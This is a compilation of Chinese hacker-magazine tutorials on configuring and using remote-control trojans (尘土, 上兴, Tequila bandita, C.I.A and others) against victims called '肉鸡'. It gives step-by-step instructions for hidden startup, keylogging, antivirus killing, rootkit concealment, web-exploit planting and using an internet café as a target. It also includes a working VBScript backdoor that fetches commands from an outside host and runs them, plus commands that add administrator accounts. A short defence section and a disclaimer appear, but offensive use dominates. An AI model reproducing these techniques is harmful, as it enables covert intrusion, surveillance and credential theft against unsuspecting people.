“插入程序名”可以自己设置，默认是 Program.Manager；“服务名称”也可自定义（如 CT_server）；“是否常驻计算机”可选服务启动/一次性启动/注册表启动；“是否感染局域网”“是否连接”“是否捕捉键盘”“是否发送邮件”等建议按需配置；其后的“驻留程序文件年/月/日/名称”等也可自定义。

设置隐藏点后，下面两行就是邮件发送接收的设置。填写完成后点击“生成配置”，会在下方显示配置信息，如图2。


图2

此时我们把生成的信息保存到文本文件中，代码如下：

```
9|1|1|1|6|1810000|80|1300000|0|2002|3|9|CzO|unset|exe|wsalsmtp.163.com|yaya@163.com|yaya|wowo|wowo@163.com|Service.Template|
```

上边的代码解释如下（“|”为标记）：插入程序名｜服务名称｜是否常驻｜是否自动感染局域网｜是否连接｜是否捕捉键盘｜是否发送邮件｜发送键盘邮件日期｜间隔发送秒数｜监听端口｜是否发送 IP 通知｜间隔发送 IP 通知秒数｜驻留程序文件时间字段｜驻留程序文件月数｜驻留程序文件日数｜连接密码｜绑定程序名｜捕捉键盘记录文件名｜邮箱服务器名｜发送邮箱名｜邮箱用户名｜邮箱密码｜接收邮箱名｜显示服务名称｜……

- 可用十六进制编辑软件添加。  
- 用 `copy 文件名/B + 文件名/B 文件名` 来增加。

示例：把配置文本（如 2.txt）与主程序放在同一目录，执行 `copy 尘土21b.exe/b + 2.txt/b 123.exe`，即可生成配置完成的服务端（图3），再通过浏览器或控制端进行后续控制。

面进行控制：先来看看傻瓜化的控制——尘土自带的控制端吧。打开控制端，然后把 IP、端口、密码都打上，就可以进行控制了，如图4。


先来试验下第一个控制命令吧——获取进程名，双击一下“获取进程名”灰色处，如图5。


就把所有进程名给列出来了，不过显示得有点乱，这就是程序设置有点不好的地方了，小小 bug 略，不过不影响我们的正常使用。获取到进程名后，我们还可以把某个进程给结束了（适合对付一些防火墙和杀毒软件）。再看下一个，获得窗口名，双击一下，如图6。

列出了所有的窗口，我们可以随意去结束任何一个，只需要把“窗口数值或名”记录下来填写上去，再双击结束窗口就可以了。接下来，有个针对系统服务进行系列操作的：

- 安装服务
- 开始服务
- 停止服务
- 删除服务
- 服务信息
- 改变服务
- 列举服务

我也不多做讲解，你们自己应该会玩的了。再跟我来看看 cmd 权限如何，有个 cmd 命令的运行框，你先写入 dos 命令，再双击，我这里测试加用户吧。命令语句：

```bash
net user aa aa /add
net localgroup administrators aa /add
```

执行后，会在浏览器中返回信息：命令成功完成。再执行个命令检查下看看是否成功添加用户（`net user aa`），如图7。剩下还有运行程序、文件操作、删除指定日志、模拟键盘鼠标操作、注册表操作、设置子服务端、安装尘土服务端、删除尘土服务端、显示软件配置、显示网络配置、显示服务系统和命令信息等功能就等大家自己去尝试了。

下面讲讲不用控制端，直接在浏览器中用命令是如何进行控制的吧！其实很简单，在 IE 的地址栏输入：`http://IP:端口/?密码|命令|参数|参数|......`，回车就行了。例如输入 `http://202.111.197.23:80/?CZQ|CMD|dir c:|`，就可以列出目标计算机 C 盘内容；输入 `http://202.111.197.23:80/?CZQ|GetRegKeys|2147483646|SOFTWARE|`，就可以获取注册表项。

输入 `http://202.111.197.23:80/?Sub|201.189.194.132|900|`，就可以与另一台计算机的软件建立连接。参数“|-|”可作为控制另一台计算机的标志，放在最后作为一条参数。第二、第三、第四个计算机同样操作。


- GetProcess：获得进程名和终止进程
- GetWindows：获得窗口名和终止窗口
- GetText：获得窗口内容
- CMD：执行 CMD 命令
- S-Install：安装服务
- S-Start：开始服务
- S-Stop：停止服务
- S-Del：删除服务
- S-Info：服务信息

### 骏马记

- S_Change：改变服务
- S_List：列举服务
- Server：开启服务和关闭服务
- Run：运行程序
- SHelp：马操作功能一览
- ExitWindows：关机或注销
- File：文件操作（复制、删除等）
- ClearLog：删除日志
- Key：发送键值
- Mouse：标操作
- GetRegKeys：获得注册表项名
- GetRegValues：获得注册表值
- SetRegValue：设置注册表值
- DelRegValue：删除注册表值
- CreateRegKey：建立注册表项
- DelRegKey：删除注册表项
- Download：取文件
- Sub1：远程控制另一台计算机并传命令
- MainFile：显示软件配置
- GetNet：显示网络配置
- Install：安装主服务
- Uninstall：删除主服务
- AddConnection：增加连接
- DelConnection：断开连接
- Var：显示服务器命令信息


嘿嘿，菜鸟们要晕死了，这么多的命令怎么记啊？其实大可不必担心哦，认真看看，其实全部都是英文而已嘛！用词释义还不就是运行的意思嘛？比如类推下，菜鸟：要是我们不会英文不是不可以用了？me：我倒！好啦，为了我们菜鸟们的逐渐成长，提供几个常用例子吧，^_^！

```text
http://192.168.1.104/?CZQ|File|open|c:\1.txt|          // 打开 c:\1.psd
http://192.168.1.104/?CZQ|File|edit|c:\1.txt|          // 编辑 c:\1.psd
http://192.168.1.104/?CZQ|clearLog|system|             // 清除系统日志
http://192.168.1.104/?CZQ|ExitWindows|0|               // 注销
http://192.168.1.104/?CZQ|ExitWindows|8|               // 关机
http://192.168.1.104/?CZQ|shfile|4|c:\downloads\1.txt|c:\downloads\2.txt|  // 更改名称
http://192.168.1.104/?CZQ|shfile|2|c:\downloads\2.txt|c:\downloads\1.txt|  // 复制
http://192.168.1.104/?CZQ|shfile|3|c:\downloads\2.txt|                      // 删除
http://192.168.1.104/?CZQ|Download|c:\1.txt|                                 // 下载文件 c:\1.txt
```

其余的就靠大家自己去琢磨了，要有点自学的精神嘛，那才会有更大的进步哦。（小提示：此木马具有自动感染局域网的功能，我们可以尝试放到网吧的机器，嘿嘿，那么整个网吧的机器都落入我们的掌控之中了！）


新年到了，首先在这里祝大家新年快乐，今天给大家带来一款非常不错的远程控制程序，也就是我们所说的木马。看了这么多 X 档案，没肉鸡的朋友可要努力哦，废话就说到这里了。推荐一下我们的主角——上兴远程控制。这款由南坡剑盟开发的木马，发展到现在技术已经比较成熟，并且一直加入新的功能。可以说，拥有一款好的木马，就相当于多了一把锋利的兵器，让肉鸡完全屈服在我们的掌握中。上兴木马就是具备了常规管理和特殊气质的好马，下面就给大家介绍这款木马吧。

#### 一、木马介绍和服务端配置

我使用的是上兴 3.0 的注册版，我们先来看一下官方对于这款木马的介绍：

- 有 DLL 型服务端（无需安装）与 EXE 服务端。DLL 为自删除木马工作，进程名可伪装系统 DLL。
- 3.0 版使用国外最新快速传输，网络嗅探、端口转发、真彩色大屏幕录像头监控。
- 带最新反弹式域名，静态更新 IP 自动上线。
- 服务端压缩后仅约 60K，实现文件监控传输、屏幕监控、注册表监控、服务监控、进程监控、超级终端、网络嗅探、摄像头监控等。

怎么样，很不错的一款木马吧，特别是 DLL 型服务端和网络嗅探功能。来看看如何配置服务端，点击“配置服务端”，会启动程序目录下的 server_u.exe 来进行配置生成工作。看一下界面（图1），的确非常容易上手。前提是需要一个转发 IP 的域名，可以在程序里直接跳转到申请页面。由于这个木马的“更新 IP”功能是直接连到注册网址，所以申请科迈的域名会使上线更加方便。


### 骇马记

我们先申请好一个注册的用户，进入到用户管理页面后，点击“申请科迈公网免费二级域名”，根据自己的需要，申请一个免费的二级域名（图2）。在配置服务端里填写我们申请好的域名，然后按照个人设置修改一下安装名称和上线端口，就生成木马的服务端。特别是 1080 端口已经被某些程序占用的朋友，先在 cmd 下用“netstat -an”命令确定一下端口信息，以免发生端口冲突，从而确定修改。

我们再来点击“更新 IP”按钮，直接跳转到科迈的登录页面，利用申请的用户进入到管理页面，双击刚才申请的域名就可以转到域名修改页面。这个时候在 A 记录下填写你现在使用的 IP，这里当然是公网 IP，确定修改后，我们当前 IP 就会转发到域名（图3）。


图2

对于新手朋友们友情提示一下，在“网络邻居”程序下查看客户端 IP 地址，或者在 cmd 下运行“ipconfig”命令来获取当前利用的公网 IP 地址。也可以登录到这个网址：www.ip138.com，进入后直接可以显示当前 IP 地址。我将服务端上传到肉鸡上，成功建立了连接，如图4。


图3


图4

#### 二、关于远程控制

肉鸡上线后，我们要建立远程连接，必须选中控制的电脑，才可以利用木马的功能对肉鸡进行远程监控。先来看一下“远程屏幕”功能，当程序提示已经建立连接，选择“开启”就可以查看到远程电脑的屏幕了。出乎意料的是，我所使用的几款国产木马中，屏幕传输最清晰和流畅的，果然如同官方信息的介绍一样（图5）。


图5

再来领略一下“文件管理”功能，你可能会发现什么信息也没有传输过来，这其实是这款木马独到的地方。只有选择了左上角的下拉菜单中的磁盘分区，才能显示该分区的文件，这样会使操作更有针对性（图6）。至于文件上传和下载以及操作功能就不做介绍了，至少传输速度是一流的。注册表管理和文件管理一样，也需要对主项目进行针对操作，功能也是非常强大并且容易上手。关于木马的服务管理、进程管理、超级终端和视频监控，就让大家自己去体会吧，整体感觉给我的就是一句广告词：简约而不简单。


图6

这款木马也加入了一些常规木马所不具备的功能，右键选中控制端，你会发现它还具备了声音监控功能，用木马来听歌，是不是很有意思？特别是网络管理项目下的“端口转发”和“网络嗅探”，可堪大成者成大事，上头才说是这样。“端口转发”可以转发对方的 3389 到本地指定的端口，这样，对于一些内网肉鸡，也不用愁玩不成终端连接。“网络嗅探”是我个人非常喜欢的功能，这样，结合控制一些服务器，可以获取相当有用的信息（图7）。被控制的网络通信信息尽在我们掌握中，这就是所谓的“嗅界”了。


图7

这款木马有些功能必须选中“开启”才能进行远程控制，并且关闭该项目的时候一定要去掉“开启”，这点大家可要注意了。

### 三、服务端的清除和总结

这款木马自身没有提供远程卸载的功能，我们可以停止资源管理器进程，然后转到系统目录下的 system32 文件夹中删除软件生成的 dll 文件，就可以清除木马。

当然，更新我们的杀毒软件也可以完全斩之于爱机外了。这款木马的确是我们控制肉鸡的上佳伴侣，不过也有一些不足的地方。上线功能应该强化，可以直接在客户端上更新 IP 到域名。控制管理上也有一些欠缺的地方，例如远程重启和关机，以及作为木马起码必须的键盘监控功能。从使用的过程中发现远程控制也有些不够稳定，特别是嗅探全部数据包的时候程序容易出错而退出。相信在后续版本中会完善，当然，我们也希望更多的黑客编程高手能为我们提供强大实用的木马。

### 骇马记


在这么一个良驹满天飞的年代，养马养久了会产生一种自己造个小马的冲动，于是我用 Microsoft.XMLHTTP 控件 + NC 打造了一只简易木马。本文叙述了我造马的探索过程，希望对和我一样菜或者比我还菜的朋友能有所获益。

先说一下 Microsoft.XMLHTTP 控件，它是为支持 XML 而设计的对象，通过 HTTP 协议访问网络，给网站发送请求，可以是 POST，也可以是 GET。该控件在 Windows 98 以来就是系统默认自带控件，并且常被系统视为安全。

思路是服务端利用 Microsoft.XMLHTTP 获取要执行的命令，客户端用 NC 伪装成 Web 服务端，提供数据给服务端的 Microsoft.XMLHTTP。

右栏讨论了使用 `.txt` 与 `.htm` 测试时的数据差异，并指出某些空间商会插入广告脚本，导致返回内容被污染。

作者说明其基本思路：监听本机 80 端口，欺骗 Microsoft.XMLHTTP 控件，通过客户端与服务端直接通信。

### 一、服务端

要调用 Microsoft.XMLHTTP 的方法很多。为方便代码修改，本文先用 VBS 脚本实现，服务端 `ok.vbs` 代码如下。

```vbscript
On Error Resume Next
Set Http=CreateObject("Microsoft.XMLHTTP")
Set Shell=CreateObject("Wscript.Shell")
Do
  Http.Open "GET","http://127.0.0.1",False
  Http.Send
  a=Http.ResponseText
  WScript.Echo a
  Shell.Run "cmd /c " & a,0
  WScript.Sleep 1000
Loop
```

核心过程是周期性发送请求、读取返回并执行命令。作者强调这是探索阶段代码，后续可继续扩展功能。

文中还提示 `Http.ResponseText` 可直接获得字符串型数据，相比 `Http.ResponseBody` 再转换更简便。

右栏给出实验：浏览器访问 `127.0.0.1`、`nc -l -p 80` 监听、连接建立但初始为空响应等现象，并说明可用文本内容绑定端口进行返回测试。

```http
HTTP/1.1 200 OK
Content-Length: 23

net user abcd abcd /add
```

### 二、客户端

如果使用网页空间控制对方，可将命令写入 `a.txt`（如 `net user abcd abcd /add`），再把服务端脚本中的地址改为该文本 URL，通过 `ok.vbs` 获取并执行。


文末继续说明：命令文件建议使用 `.txt`，避免 `.htm` 被空间商插入广告脚本导致内容与原始上传不一致。


### 三、改进

鉴于客户端很可能是 ADSL 的浮动 IP，现在不是流行用域名来更新客户端的 IP 吗？我们也可以做到。转向域名就用 `http://cdsb.xinwen365.com/ip.txt`，在该地址写上本机 IP，然后用 `ok.vbs` 来访问，从而得到客户端 IP。

```vb
On Error Resume Next
Set Http=CreateObject("Microsoft.XMLHTTP")
Set Shell=CreateObject("Wscript.Shell")
Do
  Http.Open "GET","http://cdsb.xinwen365.com/ip.txt",False
  Http.Send
  ip=Http.ResponseText
  Http.Open "GET","http://"&ip,False
  Http.Send
  a=Http.ResponseText
  Shell.Run "cmd /c "&a,0
  WScript.Sleep 1000
Loop
```

### 四、远程测试

很简单，把 `ok.vbs` 发给某好友让他运行，然后自己运行 `nc -l -p 80<test.txt`。如果对方已接收命令，会出现连接画面。随后修改 `test.txt` 里的命令继续测试。

```bash
echo open www.ftp.com>>ftp.txt
echo username>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get 3389.reg>>ftp.txt
echo bye>>ftp.txt
ftp -s:ftp.txt
del ftp.txt
3389.exe
```

这样不就把对方的 3389 打开了吗？这就是前文提到的先行兵。

看看呀！但是如果我们老用 nc 的话是不够的，因为 nc 毕竟有很多弊端，比如只能一对一建立连接，连接断开后状态无法改变等。所以我用 VB 写了个挂网页程序“挂静态网页机”。


用法很简单，把你想要的网页代码输入文本框里，按 Start 按钮，然后就可以叫你的好友来浏览了。

### 五、衍生物

通过做木马客户端的思路，是不是很想自己做个临时网页来让好友们访问？（本节涉及到的软件：挂静态网页机，光盘有收录）

### 含沙射影之遥测传说

攻与防永远是一对矛盾的统一体。由于现在很多杀毒软件都把木马列入查杀范围，越流行的木马越容易被盯上，因此出现了利用 Rootkit 技术的“新兴木马”。

下面详细讲使用方法：在本地运行客户端，点击“生成服务端”，填写文件/服务名、端口和连接密码，生成 `server.exe` 后上传运行，再在本地配置上线端口和密码。


- 1. 系统选项：可以查看和控制对方机器常用功能，主要用于打开对方的 3389；还可进行如光驱控制、桌面/任务栏隐藏等操作。
- 2. 文件管理：对于文件的基本操作，如新建、删除、重命名文件夹，上传、下载文件，重命名、删除文件等一应俱全。并且，你还可以远程隐藏运行文件，如图4。


- 3. CMDSHELL：获取远程主机的命令控制台。可以执行常用系统命令，示例中通过 `net user` 查看对方机器上的系统账号。


- 4. 进程管理：查看、终止远程主机运行进程。若看到杀毒或防火墙进程可尝试结束。文中提到某些服务端进程隐藏性较强（如在 `EXPLORER.EXE` 线程中运行），较难直接发现，如图6。


- 5. 服务管理：获取远程主机系统服务信息，如图7。
- 6. 窗口管理：获取远程主机的窗口信息，包括窗口标题、窗口类名、窗口句柄、程序路径，以及显示/隐藏/关闭/更改标题/禁用/恢复窗口等操作，如图8。


- 7. 注册表管理：获取远程主机注册表信息，可新建、删除、重命名注册表项及键值，修改键值。文中强调注册表是 Windows 核心，掌握其内容影响较大，如图9。


- 8. 剪贴板管理：获取、设置远程主机剪贴板文字，并可保存记录为文件，便于取证。
- 9. 数据转发：将远程主机端口映射到本地。示例：本地 1234 端口转发到对方 3389 端口，使连接本地 1234 等同连接对方 3389（如图10）。
- 10. HTTP 代理：在远程主机开启 HTTP 代理服务。
- 11. 下载运行：下载一个 URL 地址的文件并运行，可以设置 URL 地址和保存位置及文件名。
- 12. 打开网址：使用默认浏览器打开一个 URL 地址。
- 13. 发送消息：给远程主机发送提示信息。
- 14. 远程屏幕：获取远程主机屏幕画面。
- 15. 远程视频：获取远程主机摄像头画面。
- 16. 远程音频：获取远程主机话筒声音数据。
- 17. 键盘记录：获取远程主机的按键记录。
- 18. 重启、关闭远程主机，注销远程主机当前用户。
- 19. 远程卸载：删除远程主机的服务端文件并删除相应系统服务。

抓到的肉鸡，不作个跳板，岂不是可惜了吗？如图11。


怎么样，以上介绍了这么多魔剑的功能，你是不是也对它产生兴趣了呢？毕竟，这款木马到目前为止并不被杀毒软件所查杀，并且采用了 Rootkit 技术进行隐藏，还是值得一玩儿的。

> （本文涉及到的软件免责声明，先声明在此）

## 木马“进口” Tequila bandita

对于国产的木马，诸如冰河、黑洞、灰鸽子等，对于广大的网友来说，应该都非常熟悉了吧。其实国外也有许多非常优秀的木马，虽然语言环境始终是一个劣势，不过它们的优势也是有的。正是因为这些国外的木马不被国内所熟悉，也因此许多木马不被国内的杀毒软件所查杀。

今天，我就为大家介绍一款国外优秀的木马。虽然它体积小巧，却能实现当前各种流行的远程控制技术，包括反弹连接技术、线程插入技术等，还可以实现远程的文件管理、注册表管理、进程管理，以及摄像头和屏幕的控制等，实在是一款难得的优秀木马。

- 1. 木马 Tequila bandita 的服务端程序配置，以及远程的操作控制。
- 2. 利用网页木马对木马 Tequila bandita 的服务端程序进行远程种植。
- 3. 对 Tequila bandita 木马的清除以及防范过程。

### 一、配置服务端

木马使用的第一步自然是配置服务端程序。可喜的是这款木马已经由网友进行了汉化，对于广大菜鸟来说，语言问题已经不存在了，和使用国产木马一样方便了。


我们直接运行 Tequila bandita 的客户端程序，如图1。由于远程控制操作者需要用户通过服务端程序执行各种指令来进行，所以用户首先需要配置一个服务端程序。


在弹出的客户端窗口点击“设置”菜单下的“创建服务端”命令，弹出“服务端创建”的窗口，在这里配置信息。选择“启动设置”面板，如图2。

客户端系统当前的 IP 地址，如果用户不清楚的话，可以在命令提示符下输入 `ipconfig` 命令查看；“EXE”项填写服务端程序成功安装后的程序名称。在服务端启动方式上，Tequila bandita 采用了 ActiveX 插件随系统启动的方法。为使服务端稳定启动，需选择“ActiveX 运行”并在“键”中填写 ActiveX 键值；“端口”用于服务端与客户端传输数据，默认端口为 2122，可修改。

为增强隐蔽性，程序提供“线程插入”功能，可把服务端进程注入资源管理器 `Explorer` 或浏览器 `Browser` 进程。建议选择 `Explorer`，其会随系统启动。若启用“启动键盘记录”，即使未联网也可记录键盘操作；若勾选“仅在线时应用”，则仅在连接网络后开启记录。

程序支持“使用 UPX 加壳”以减小体积，并包含“伪造信息”功能，可在用户运行时弹出错误提示。设置完成后点击“创建”生成服务端。该木马集成端口、ActiveX 键值等多种规避设置，增加防护难度。

### 二、木马的种植

木马服务端生成后，需要将其植入远程计算机。网页木马常利用系统漏洞诱导用户访问特定页面，在浏览过程中触发漏洞并安装木马。运行网页木马生成器后，在“选择要运行的 EXE 文件”中填写服务端程序，在“输入存放木马的 WEB 文件夹路径”中填写网页木马路径，点击“生成木马”即可生成动态网页木马文件。


该木马生成器利用微软 IE Help ActiveX 本地安全漏洞进行植入。

### 三、控制服务端

当服务端成功安装到远程主机后，用户即可连接控制。先在“设置”菜单进行客户端配置，重点是“监听端口”，需与服务端配置一致。配置完成后，点击“监听→开始”，本地将开启监听端口等待上线提示。


在电脑列表中选择目标并右键“打开服务器”会弹出远控命令窗口。随后可通过“间谍”菜单执行监控命令。


“密码”命令可监控远程用户键盘记录；若服务端启用“启动键盘记录”，即可查看此前输入内容（包括账号密码等）。也可通过“开始/停止”控制记录，并用“保存”导出本地。


“视频/桌面”命令可抓取远程桌面与摄像头图像。新版中不再依赖插件，屏幕抓取速度较快。


“管理器”菜单包含“文件”“任务管理器”“进程”“注册表”等远程控制命令，是后续操作的基础功能入口。

可以对远程计算机中的文件进行各种管理。远程文件管理功能是木马必备的一个功能，它的好坏也从一个侧面反映出该木马的好坏。点击“文件”命令，在下面的操作界面中会出现“本地”“网络”“搜索”以及“传输”四个选择面板。在“本地”面板中，用户可以对本地计算机中的文件进行管理，还可以对需要的文件通过右键的“上传”命令上传到远程计算机；在“网络”面板中，用户就可以对远程计算机中的文件进行管理，并且可以对这些文件进行新建、删除、复制等管理。


除了这些操作，Tequila bandita 还可以将远程电脑中的某个目录映射到本地硬盘中，这样用户就可以方便地共享对方目录中的文件，如图8。


当用户在进行文件上传、下载时，木马会自动切换到“传输”面板，这样我们就可以清楚地看到文件传输的过程，如图9。


再说说这个“搜索”面板，搜索功能是当前木马新加入的一个功能，用户通过它就可以在远程计算机中快速地搜索到需要寻找的文件，使用方法也和本地电脑的文件搜索一样简单。“服务”命令并不是对远程服务端进行重启更改的命令，而是针对 NT 内核系统的系统服务项进行管理的功能，在这儿我们可以对远程系统的服务项进行查看，并且可以通过右键菜单实现启动服务、删除服务、停止服务的操作。用户还可以创建新的服务项，这样就可以设置一些用户需要的程序随系统而启动了，如图10。

其他的“窗口管理”“进程管理”和“注册表管理”大家都很熟悉了，这里就不再介绍。查看完“管理器”菜单下的命令，再来看看“其他”菜单下的各个命令。点击“电脑信息”命令，我们就可以查看到远程计算机比较详细的信息，比如服务器名称、服务端保存位置、系统语言等，如图11。


如果没有显示出远程电脑的信息，可以运行右键的“刷新”命令。通过“下载者”命令可以将网络中的文件下载到远程计算机中，虽然通过文件传输功能也可以执行相同的操作，但“下载者”命令可以一次对多台选择的计算机进行统一下载操作命令，减轻了管理者频繁操作的麻烦。首先在“URL”中设置需要下载的文件网络链接，在“文件”下设置下载文件保存的目录以及文件名称，并且用户还可以设置是否下载后立即运行，如图12。


“远程 Shell”命令成功地模拟出了一个远程系统的命令提示符功能，在此用户可以执行很多的终端命令，这个命令非常重要，因为很多程序或命令只能在 DOS 窗口执行，如图13。


## 四、木马的防范

要防范黑客为自己的系统安装各种恶意程序，用户首先需要提高自己的安全意识，养成良好的安全习惯，不要打开一些来历不明的邮件及附件，不要到不确定的网站浏览及下载软件，不要打开通过 QQ、MSN 等即时通讯工具发来的链接等，避免被黑客的网页木马来种植木马程序。

前面已经讲过了，网页木马是利用了系统的漏洞来进行种植的，所以用户首先要定期到微软网站去下载最新的安全补丁，堵住系统的漏洞，尤其是震荡波漏洞、极速波漏洞、JPEG 漏洞、IFRAME 等高危系统漏洞。然后安装杀毒软件以及网络防火墙也是非常必要的。现在很多杀毒软件已经可以将利用各种漏洞的网页木马代码添加到病毒库中，所以及时更新杀毒软件的病毒库并随时开启实时监控功能，这样当你浏览到这种网页时，杀毒软件的实时监控功能就会及时阻止恶意脚本代码的执行，避免落入黑客的陷阱。

另外，用户最好了解一些木马、病毒、恶意程序的知识，这样当你遇见恶意程序的时候就可以及时发现异常情况并采取相应措施。如果能了解一些注册表的知识，定期查看一下注册表的自启动项是否有可疑键值等。就本文所讲的，用户首先要关闭系统的“系统还原”功能，并进行木马服务端的清除。除了可以通过杀毒软件对 Tequila bandita 木马进行清除以外，还可以通过手工方式进行清除。通过 regedit 命令打开注册表管理器，然后在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Active Setup\Installed Components\` 找到可疑的键值，记住该键值的路径及文件名，然后删除该键值并重启系统，找到键值中的文件删除即可。

至此，木马 Tequila bandita 的主要功能就为大家介绍完了。最后我特别提醒大家，Tequila bandita 除了拥有强大的远程控制功能外，还包括极强的破坏性。我们介绍它，主要是为了了解它的技术与方法，而不是用它进行网络破坏，所以请大家好自为之。（本文涉及到的工具 Tequila bandita，光盘有收录）


### 从黑客之门小窥 DLL 后门

刚接触后门时使用过一些经典工具，逐步体会到后门技术在启动方式、存在方式、连接方式等方面的差异。文中以 DLL 后门为例，介绍其运行机制、配置方式与常见操作思路，并讨论其隐蔽性与传播特征。

文章说明了 DLL 后门常见的加载与驻留方式：可借助宿主程序运行，也可通过系统服务或注册项实现自启动；在连接层面可通过端口复用、反向连接等技术提升隐蔽性。还提到其可能感染系统进程并在系统目录中伪装存在。

作者随后给出实际配置流程：服务端文件与客户端文件的组成、默认密码、文件名修改、路径填写及首次连接前的准备步骤，并说明客户端可使用 nc 或专用工具进行连接管理。


图1

在安装环节，文中先解释 `rundll32.exe` 的调用作用，再介绍将 DLL 放置到系统目录后通过导出函数进行注册安装；若提示安装成功则表示后门已可用，卸载时则调用反注册函数。

```bash
c:\>rundll32 hkdoordll,DllRegisterServer lsass.exe
c:\>rundll32 hkdoordll,DllUnRegisterServer glancer lsass.exe
nc.exe <server_ip> <port>
```


图2

随后列出常见远程控制功能，包括上传下载、目录浏览、磁盘信息、执行命令、获取系统信息、进程管理、开启服务等；并给出客户端参数形式（如密码与登录类型）供连接时使用。

最后讨论了 DLL 后门清除与排查的思路：围绕系统目录中的可疑 DLL、对应进程注入关系、文件属性与时间戳差异进行核查，并建议先对系统 DLL 清单做基线备份后再比对异常。


然后我们在日常做维护的时候再对所有的 dll 文件进行备份，如上保存为 bdll.txt。然后我们用系统自带的文件对比程序 fc.exe，来将 adll.txt 和 bdll.txt 的区别找出来，并保存在 diff.txt 中，如：`c:\backup>fc.exe /u adll.txt bdll.txt > diff.txt`（注意这里需要加一个 `/u` 的参数）。如果你确信发现了异常 dll 文件，千万不要冲动地去删除它。因为系统在启动时，各个系统文件要完成各自的加载初始化（包括调用动态链接库）；如果系统发现自己的动态链接库没有了，系统将会提示出错。所以我们在发现异常 dll 文件时，应当先用 Windows 优化大师等管理程序查清它感染了谁，然后再用正常的文件覆盖它，重启，再删除那个异常文件。当然我们也可以通过注册表，这里我就不做介绍了。本人才疏学浅，有疏漏的地方还请多多指教。

> （本文涉及到的工具 yyt 的 hacker's door，光盘有收录）


### 浅析好马 C.I.A

如今各种各样的木马后门层出不穷，从灰鸽子到黑洞、Hxdef100，功能都非常强大：反弹连接、动态上线通知、隐藏端口服务、穿越防火墙等等，可谓各具特色。笔者最喜欢使用的还是灰鸽子，再加上 Hxdef100 的 Rootkit 隐藏功能，两强组合可谓无敌！不过在使用中也逐渐感觉这个种植木马的过程有些麻烦了，再加上灰鸽子久负盛名，被各大杀毒软件极力围剿，因此笔者不得不再次寻找一匹伴随自己征战黑客沙场的好马！

### 一、好马不出名

C.I.A 是个比较独特的木马，虽然此木马发布也有一些时日了，不过好像在许多黑友的耳中听得并不多，或许是好用的马儿都不愿太招摇，以免树大招风吧！不过 C.I.A 的功能确实非常强大，可以使用两种方式穿越防火墙，包括以 Spyware 的方式运行，或者使用 DLL 注入的方式直接插入到任意系统进程中启动运行。最重要的是，这款木马还附带了 Rootkit 隐藏功能，可以将木马本身的端口、进程服务等统统隐藏起来。更重要的是用该木马可以生成不压缩的服务端，如果自己为服务加个壳的话，就更加让杀毒软件查无可查了！

经过一番试用，感觉 C.I.A 完全可以与以前的灰鸽子 + Hxdef100 的组合媲美，心里面很激动，忍不住想把它介绍给与笔者一样的小菜们……

### 二、史上最强的服务端定制系统

首先需要生成一个木马服务端，C.I.A 的服务端极具个性化，提供了最强的自定义方式，可根据自己的需要生成不同的木马服务端。

### 1. 生成木马功能主体

运行 C.I.A 木马程序后，点击界面最下方的“客户端设置”按钮，在弹出的子按钮菜单中点击“创建服务器”按钮，打开服务端程序设置窗口。首先点击“主功能”按钮，在右边界面的“Port”中输入木马所使用的端口。默认的服务端程序连接端口为“6333”；在“Transfer”中指定木马服务端文件传输端口，默认为“6334”；在“Keylog”中可更改键盘记录连接端口，如图1。木马是以服务的方式进行启动的，可以在“Server Name”（服务名称）中为木马程序起一个比较有迷惑性的服务名称，如“Windows times”。为了防止其它黑客连接自己的木马服务端，可以在“Password”中设置一个连接木马的验证密码，密码长度最大为十个字符。


“Firewall Bypass Method”（防火墙穿越模式）是最重要的一项设置，可以选择穿越防火墙的方式。设置为“Dll Spyware Fwb”时，木马以普通软件的形式运行，可以反弹连接客户端，这对于普通防火墙能够起一些作用；但是如果有些变态防火墙连反向连接都禁止了的话，就只有采用进程插入的方式，混进 IE 或某些系统进程中穿越防火墙的限制了。勾选“Dll Inject”项，并选择将木马插入到 IE 或“Explorer”进程中，同时还可以自定义插入进程的 DLL 模块名称，默认为“wsock32.sys”。这样即使主机管理员产生了怀疑，在查找进程中的可疑模块时，也不易将木马找到并卸载。

### 2. 狡兔三窟，多种方式启动木马

点击界面中的“运行设置”项，在这里可以选择设置木马服务程序的启动方式，例如将启动语句加在 Win.ini 或 system.ini 文件中，在注册表中添加启动项，以服务的方式运行，或者直接调用 Explorer 来启动木马进程，如图2。当入侵的主机是 Windows2000 或 XP 时，最好选用“Explorer Run”项比较隐蔽，当然也可以同时选择多种启动方式。界面中的“Install Server”（安装服务）和“Registry Value”（注册表值）是用来设置启动服务程序路径和注册表的启动键值名称的。


图2

注意，在“Install Server”中默认为“%SD%\svchost.exe”，其中的“%SD%”是 C.I.A 中自带的一个通配符，用于指定路径名称，表示路径为“system directory（系统文件夹路径）”。


图3

### 3. 颠倒世界，反杀防火墙和杀毒软件

一般来说，都是防火墙和杀毒软件干掉木马的，不过世界颠倒过来了。C.I.A 的防火墙和杀毒软件的反杀功能非常强，设置后只要运行了 C.I.A 服务端程序，基本上所有防火墙和杀毒软件进程都会被终止。


图4

浏览选择木马所在文件夹“killlist”下的“Huge kill list.txt”文件，可导入程序自带的杀毒软件和防火墙名单。可反杀防火墙与杀毒软件非常多，足足有469种关键字过滤，常见的瑞星、MCAFEE 等都在反杀名单中。

> **小提示：** 在 C.I.A 自带的反杀列表文件中还有一个专门用于禁止 Windows 系统工具的列表名单，载入后可禁止运行注册表、任务管理器、CMD 命令窗口、“服务”“用户帐户”等。

### 4. 计中计，木马捆绑木马

如果你觉得一个木马功能不够强的话，甚至还可以将其它木马或 DLL 插件等捆绑在 C.I.A 生成的服务端中。点击“合并器”功能项，在右侧窗口中添加文件并设置“File Destination”和“Execution Type”（如 Run hidden）。

> **小提示：** 也可以捆绑诸如记事本程序“notepad.exe”之类正常程序并设置最大化运行，受害者运行木马后会自动打开该程序，以起到伪装作用。

### 5. 下载者与代理服务器

C.I.A 木马服务端功能极为强大，甚至可以让运行了木马的主机自动下载文件，甚至将其变为一个 Socket 代理服务器，作为继续入侵的踏板。可在“Socks/下载者”中勾选“下载运行文件”并填写 URL。


图5

点击“Socks/下载者”功能项，在右侧窗口中勾选“下载运行文件”，输入文件下载 URL 以及保存路径和路径名，木马上线运行时可自动下载并执行程序。


图6

勾选界面中的“运行时打开 Socks4”项，输入代理服务器连接端口，生成的木马就拥有了代理功能。

### 6. ROOTKIT 隐藏，查无可查

